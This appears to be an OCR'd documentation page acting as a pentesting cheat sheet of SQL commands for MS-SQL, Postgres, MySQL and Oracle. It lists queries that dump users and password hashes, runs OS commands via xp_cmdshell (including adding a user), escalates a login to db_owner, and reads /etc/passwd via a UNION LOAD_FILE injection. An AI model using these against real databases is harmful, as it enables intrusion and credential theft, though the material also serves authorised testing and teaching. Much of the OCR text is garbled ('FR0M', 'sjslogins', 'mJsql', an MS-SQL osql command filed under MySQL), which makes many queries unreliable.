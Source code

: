 ```yaml
---
title: Databases
sidebar: mydoc_sidebar
permalink: databases.html
folder: mydoc
---
```


# Database

Ms-sql


| **Command** | **Description** |
| :--- | :--- |
| SELECT @@version      | Database version             
| EXEC xp_msver         | version details              
| EXEC master..xp_cmdshell &apos;net user&apos;   | Run operating system command 
| SELECT HOST_NAME()               | Get Hostname and IP       
| SELECT DB_NAME()       | Current database        
| SELECT name FROM master..sysdatabases;        | List of databases            
| SELECT user name()      | Current user                
| SELECT name FROM master .. sjslogins    | List of users               
|     SELECT name FROM master..sysobjects WHERE xtype= &apos;U&apos;;    | list of tables               
|  SELECT name FROM syscolumns WHERE id=(SELECT id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ; | List of columns              




### Information about all database tables in the system table

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### List of tables and columns

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name='mytable')
```

### Password hash

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

### Bypass user access level

```text
execute('execute(''alter role [db_owner] add member [client]'') at "compatibility\poo_public"')
```

## Postgres

| **Command** | **Explanation** |
| :--- | :--- |
| SELECT version\(\); | Database version
| SELECT inet server\_addr\(\) | Get Hostname and IP
| SELECT current database\(\); | Current database |
| SELECT datname FROM pg database; | List of databases
| SELECT user; | Current user
| SELECT username FROM pg\_user; | List of users
| SELECT username,passwd FROM pg shadow | List of password hashes

### column list

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### List of tables

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **Command** | **Explanation** |
| :--- | :--- |
| SELECT @@version; | Database version
| SELECT @@hostname; | Get Hostname and IP
| SELECT database\(\); | Current database |
| SELECT distinct \(db\) FROM mysql.db; | List of databases
| SELECT user\(\); | Current user
| SELECT user FROM mysql.user; | List of users
| SELECT host,user,password FROM mJsql.user; | Password hash list

### List of all tables and columns

```text
SELECT table schema, table name, column_name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### Execution of operating system command in mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr
```

### Reading readable files in mysql

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### Writing to the file system in mysql

```text
SELECT * FROM mytable INTO dumpfile '/tmp/somefile';
```


## Oracle


| **Command** | **Explanation** |
| :--- | :--- |
| SELECT * FROM v$version; | Database version
| SELECT version FROM v$instance; | Database version
| SELECT instance name FROM v$instance; | Current database |
| SELECT name FROM v$database; | Current database
| SELECT DISTINCT owner FROM all_tables; | List of databases
| SELECT user FROM dual; | Current user
| SELECT username FROM all_users ORDER BY username; | List of users
| SELECT column name FROM all_tab_columns; | List of columns
| SELECT table name FROM all_tables; | list of tables
| SELECT name, password, astatus FROM sys.user$; | List of password hashes



### List of databases

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```


{% include links.html %}
